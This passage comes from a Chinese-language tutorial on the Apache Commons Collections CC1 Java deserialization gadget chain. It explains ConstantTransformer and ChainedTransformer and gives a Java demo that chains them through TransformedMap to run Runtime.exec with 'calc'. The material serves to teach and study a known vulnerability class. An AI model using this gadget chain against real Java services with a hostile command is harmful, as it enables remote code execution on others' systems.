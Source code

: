 所以`ConstantTransformer`的作⽤其实就是包装任意⼀个对象，在执⾏回调时返回这个对象，进⽽⽅便后续操作。

#### ChainedTransformer
`ChainedTransformer`也是实现了`Transformer`接⼝的⼀个类，它的作⽤是将内部的多个`Transformer`串在⼀起。

简单来说就是，前⼀个`transform`回调方法返回的结果，作为后⼀个`transform`回调方法的参数传⼊。

`ChainedTransformer`的代码如下：

<div align=center><img src="https://user-images.githubusercontent.com/84888757/204724011-0c27e573-a029-4bf1-8b66-2aa7d0716bce.png" /></div>

那么这样我们可以利用`ChainedTransformer`将`ConstantTransformer`和`InvokerTransformer`的`transform`方法串起来。通过`ConstantTransformer`返回某个类，交给`InvokerTransformer`去调用类中的某个方法。

### 3.2 `AnnotationInvocationHandler` 中 `setValue` 不可控问题
再次回到前面的问题，`setValue` 的参数不是可控的，怎么解决？  

前面的 `Demo` 中我们都是直接指定 `value` 为 `Runtime.getRuntime()`。但实际上 `value` 并不能由我们控制。这时候就要联想到恒定转化器 `ConstantTransformer` 和链式转化器 `ChainedTransformer` 了。

创建一个 `ConstantTransformer` 对象，直接传入 `iConstant` 为 `Runtime.getRuntime()`，放置在 `ChainedTransformer` 的 `iTransformers` 数组的第一个，原先的 `InvokerTransformer` 对象放在第二个，`ChainedTransformer` 传入到 `valueTransformer`。这样不管 `value` 为多少，最终都能执行命令。


`CC1_1.java`代码如下：
```
package org.vulhub;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class CC1_1 {
    public static void main(String[] args) throws Exception{
//        InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
//        exec.transform(Runtime.getRuntime());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[] {"calc"}),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        // 创建一个map，并添加一个Entry
        Map map = new HashMap();
        map.put("k", "v");
        
        // 调用TransformedMap.decorate实例化TransformedMap
        Map<Object, Object> transformedMap = TransformedMap.decorate(map, null, transformerChain);
//        Map<Object, Object> transformedMap = TransformedMap.decorate(map, null, exec);
//        Map tansformedMap = TransformedMap.decorate(map, null, exec);
//        tansformedMap.put(1,Runtime.getRuntime());
        //tansformedMap.put(Runtime.getRuntime(),1);

        for (Map.Entry entry: transformedMap.entrySet()) {
            entry.setValue(1234);
        }

    }
}
```